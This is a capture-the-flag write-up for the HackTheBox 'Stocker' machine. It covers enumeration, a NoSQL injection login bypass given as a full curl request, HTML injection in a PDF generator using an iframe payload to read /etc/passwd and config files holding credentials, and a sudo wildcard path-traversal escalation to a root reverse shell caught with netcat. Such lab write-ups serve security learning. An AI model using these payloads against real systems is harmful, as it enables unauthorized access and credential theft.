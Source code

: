 # easy - Stocker

# Content

## Finding user flag

Nmaping the target:

```bash
» sudo nmap --open --min-rate 5000 -T4 -Pn -p- stocker.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 11:33 -04
Nmap scan report for stocker.htb (10.129.219.49)
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Nothing interesting found, I will need to fuzz.

```bash
x» curl  -s stocker.htb | grep href | grep -v '#'
    <link rel="apple-touch-icon" sizes="180x180" href="img/apple-touch-icon.png" />
    <link rel="icon" type="image/png" sizes="32x32" href="img/favicon-32x32.png" />
    <link rel="icon" type="image/png" sizes="16x16" href="img/favicon-16x16.png" />
    <link rel="icon" type="image/png" sizes="96x96" href="img/favicon.png" />
    <link rel="stylesheet" href="css/theme.min.css" />
        <a class="navbar-brand pe-4 fs-4" href="/">
        Made by <a href="https://templatedeck.com" class="link-fancy" target="_blank">templatedeck.com</a>
            
x» curl  -s stocker.htb | xurls
https://onepagelove.com/stride
http://www.w3.org/2000/svg
http://www.w3.org/2000/svg
https://templatedeck.com
```

No suspicious dir paths:
```bash
~x» gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 50 -u http://stocker.htb/ -b 403,404
...
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://stocker.htb/css/]
/favicon.ico          (Status: 200) [Size: 1150]
/fonts                (Status: 301) [Size: 178] [--> http://stocker.htb/fonts/]
/img                  (Status: 301) [Size: 178] [--> http://stocker.htb/img/]
/js                   (Status: 301) [Size: 178] [--> http://stocker.htb/js/]
Progress: 20469 / 20470 (100.00%)
```

Found a sub-domain!
```bash
~x» gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 --append-domain -u stocker.htb
...
===============================================================
2023/02/27 11:42:21 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4911 / 4990 (98.42%)
```

It is a express.js app:
```bash
~x» curl -I "http://dev.stocker.htb/login"
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 27 Feb 2023 15:43:59 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 2667
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Tue, 06 Dec 2022 09:53:59 GMT
ETag: W/"a6b-184e6db4279"
Set-Cookie: connect.sid=s%3ApGnULCGlgGvmmJ5qL7GLnLrmQM8ScCtM.I6vljYhiejpDcnshvVWQP4cckp2QxugWiiyDlCP6Svs; Path=/; HttpOnly
```

Doesn't seem vulnerable to sqli:

![dev login page](/i/2023-02-27_11-45.png)

Somehow I need to bypass that login:
```bash
~x» gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 50 -u http://dev.stocker.htb/ -b 403,404
...
===============================================================
2023/02/27 11:45:38 Starting gobuster in directory enumeration mode
===============================================================
/Login                (Status: 200) [Size: 2667]
/login                (Status: 200) [Size: 2667]
/logout               (Status: 302) [Size: 28] [--> /login]
/static               (Status: 301) [Size: 179] [--> /static/]
/stock                (Status: 302) [Size: 48] [--> /login?error=auth-required]
Progress: 20380 / 20470 (99.56%)
```

I was able to by pass it after reading online, it was a No-SQL Injection issue:

```bash
curl 'http://dev.stocker.htb/login' -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0'  \
  -H 'Content-Type: application/json'  \
  -H 'Origin: http://dev.stocker.htb'  \
  -H 'Connection: keep-alive'  \
  -H 'Referer: http://dev.stocker.htb/login'  \
  -H 'Cookie: connect.sid=s%3A33AWCp9WplxCVsOwc6LSziavsWvYc-CE.ENVm%2Fg507T1odHfYvAvhg1xBuQs8pG8LGmrfL5V3wrU'  \
  -H 'Cache-Control: no-cache'  -d '{"username": {"$ne": null}, "password": {"$ne": null}}' 
```

After requesting that and reloading the page in Firefox I was succesfully redirected to `/stock` page.

![stock page](/i/2023-02-27_11-59.png)

The Purchase option from generates a PDF file:

![pdf report](/i/2023-02-27_12-02.png)

That pdf is being generated by Skia PDF framework:

```bash
x» pdfinfo document.pdf
Creator:         Chromium
Producer:        Skia/PDF m108
CreationDate:    Mon Feb 27 12:01:29 2023 -04
ModDate:         Mon Feb 27 12:01:29 2023 -04
Custom Metadata: no
Metadata Stream: no
Tagged:          yes
UserProperties:  no
Suspects:        no
Form:            none
JavaScript:      no
Pages:           1
Encrypted:       no
Page size:       594.96 x 841.92 pts (A4)
Page rot:        0
File size:       41993 bytes
Optimized:       no
PDF version:     1.4
```

The form is injectable:

```bash
curl 'http://dev.stocker.htb/api/order' -X POST  \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0'  \
  -H 'Referer: http://dev.stocker.htb/stock'  \
  -H 'Content-Type: application/json'  \
  -H 'Origin: http://dev.stocker.htb'  \
  -H 'Connection: keep-alive'  \
  -H 'Cookie: connect.sid=s%3A33AWCp9WplxCVsOwc6LSziavsWvYc-CE.ENVm%2Fg507T1odHfYvAvhg1xBuQs8pG8LGmrfL5V3wrU'  \
  -H 'Cache-Control: no-cache' \
  --data-raw $'{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<h1>holaaa!!!11</h1>","description":"It\'s a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}'
```

![injectable](/i/2023-02-27_12-14.png)

I was able to read `/etc/passwd` by injecting `"title":"<iframe src=file:///etc/passwd></iframe>"`.

By reading nginx configs and js index file I've got a credential:

- `/var/www/dev/index.js`
- `/etc/nginx/nginx.conf`

![Mongodb creds](/i/2023-02-27_12-22.png)

![leak nginx](/i/2023-02-27_12-23.png)

I tried to ssh with `dev` user but didn't work, I had to read the `/etc/passwd` file and I realized there is an user called `angoose` there.

```bash
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ ls
user.txt
```

## Finding root flag

Checking privileges, we have a wildcard!:

```bash
angoose@stocker:~$ sudo -l
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

I will use https://www.revshells.com help to build a payload for that js file.

![js payload](/i/2023-02-27_12-31.png)

```bash
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../../tmp/a.js
```

```bash
x» nc -lvnp 55555
Connection from 10.129.219.49:32880
id
uid=0(root) gid=0(root) groups=0(root)
```
